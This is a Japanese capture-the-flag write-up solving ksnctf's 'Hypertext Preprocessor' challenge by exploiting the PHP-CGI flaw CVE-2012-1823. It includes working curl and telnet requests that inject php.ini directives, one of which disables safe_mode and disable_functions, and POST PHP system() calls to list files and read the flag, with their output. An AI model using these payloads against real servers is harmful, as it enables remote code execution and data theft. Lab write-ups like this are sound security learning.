

# ksnctf: Hypertext Preprocessor

**Category:** Web  
**Points:** 70pt  
**Description:**  

> http://ctfq.sweetduet.info:10080/~q12/

**Hint:**

>

## 解き方
問題分のURLへアクセスすると，こんな感じ．



タイトルは`Clock`と表示されているので何かの時間だろうか．`2012:1823:YY:YY:MM:DD:HH:mm:SS:...`っぽい．ちなみに問題のタイトルは`Hypertext Preprocessor`でPHPの事．

`2012:1823`がPHPと関連ありそうなので，Google先生に尋ねてみると`CVE-2012-1823`がヒット．徳丸さんの記事が出てきた．

[CGI版PHPにリモートからスクリプト実行を許す脆弱性](https://blog.tokumaru.org/2012/05/php-cgi-remote-scripting-cve-2012-1823.html)

Webサーバ上のPHPがCGI環境で動作している場合，リモートでPHPスクリプトの閲覧や任意コードが実行できちゃう類の脆弱性．URLの末尾に`?-s`と付け加えることで，ソースコードが表示された場合はこの脆弱性の対象となるとのこと．[JPCERT/CC](https://www.jpcert.or.jp/at/2012/at120016.html)にも情報はあった．

```
$ curl -I http://ctfq.sweetduet.info:10080/~q12/
HTTP/1.1 200 OK
Date: Wed, 05 Dec 2018 10:38:24 GMT
Server: Apache/2.2.15 (CentOS)
X-Powered-By: PHP/5.4.1
Connection: close
Content-Type: text/html; charset=UTF-8
```

HTTPのレスポンスヘッダーを確認すると`PHP/5.4.1`が動作していると確認できた．`CVE-2012-1823`の対象versionである．故に，ブラウザ上で`http://ctfq.sweetduet.info:10080/~q12/index.php?-s`にアクセスするとPHPスクリプトを閲覧できる．

```php
<?php
    //  Flag is in this directory.
    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
```

コメントに`Flag is in this directory.`とあることから，同じ階層に`flag.txt`か何かしらのflag情報が配置されていると思われる．よって，ディレクトリ調査としてPHPの`-d`オプションを使う．これにより`php.ini`の書き換えができる．  
参考: [CVE-2012-1823 CVE-2012-2311 PHPのCGIモードにおける脆弱性について](https://sect.iij.ad.jp/d/2012/05/087662.html)

実行にあたっては徳丸さんの記事を参考にした．

> CVE-2012-1823の影響はスクリプトソースの表示だけではありません。PHPのオプションを組み合わせることにより、外部から任意のスクリプト実行が可能となります。具体的には、-dオプションを用いて、php.iniのディレクティブを外部から指定できます。 metasploitminute.comで紹介されていたExploitを元に、攻撃例を紹介します。以下の2つのphp.iniディレクティブを指定します。 allow_url_include=On auto_prepend_file=php://input ? 最初のディレクティブは、includeするファイルをURL指定でリモートから読み出すことを許可するものです。2番目のディレクティブは、PHP実行に先立ち、スクリプトをincludeしておくものですが、ファイル名としてphp://inputを指定しているため、POSTパラメータとして送信した内容をPHPスクリプトとして実行します。両者の組み合わせにより、外部から指定したスクリプトを実行することができます。

`curl`を使って，`ls -al`ディレクトリ内部を表示してみる．

```
$ curl "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input" -X POST -d "<?php system('ls -al'); ?>"
total 18668
dr-x--x--x 2 q12  q12      4096 Dec  5 20:00 .
drwx--x--x 3 root root     4096 Dec  5 20:00 ..
-r--r--r-- 1 q12  q12        90 Dec  5 20:00 .htaccess
-r-------- 1 q12  q12        22 Dec  5 20:00 flag_flag_flag.txt
-r-xr-xr-x 1 q12  q12       600 Dec  5 20:00 index.php
-r-xr-xr-x 1 q12  q12  19093315 Dec  5 20:00 php.cgi
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p>2012:1823:20:18:12:05:11:03:23:02:07:32:22</p>
  </body>
</html>
```

しっかり`ls`を実行できている．こわいなー．`flag_flag_flag.txt`を表示するために`cat`するとflagを取得できた．

```
$ curl "http://ctfq.sweetduet.info:10080/~q12/?-d+allow_url_include%3DOn+-d+auto_prepend_file%3Dphp://input" -X POST -d "<?php system('cat flag_flag_flag.txt'); ?>"

- 省略 -
```

telnetで`POST /~q12/index.php?-d+allow_url_include%3don+-d+safe_mode%3doff+-d+suhosin.simulation%3don+-d+disable_functions%3d""+-d+open_basedir%3dnone+-d+auto_prepend_file%3dphp://input+-d+cgi.force_redirect%3d0+-d+cgi.redirect_status_env%3d0+-n HTTP/1.1`とリクエストを投げても同様の結果が得られた．